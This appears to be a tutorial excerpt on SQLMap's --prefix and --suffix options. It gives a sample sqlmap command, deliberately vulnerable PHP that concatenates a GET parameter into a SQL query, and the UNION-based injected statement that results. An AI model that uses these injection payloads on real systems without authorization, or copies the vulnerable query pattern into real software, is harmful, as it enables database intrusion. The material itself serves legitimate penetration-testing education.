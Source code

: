 ## Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.  
For such runs, options `--prefix` and `--suffix` can be used as follows:
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```
This will result in an enclosure of all vector values between the static prefix `%'))` and the suffix `-- -`.  

For example, if the vulnerable code at the target is:
```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

The vector `UNION ALL SELECT 1,2,VERSION()`, bounded with the prefix `%'))` and the suffix `-- -`, will result in the following (valid) SQL statement at the target:
```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```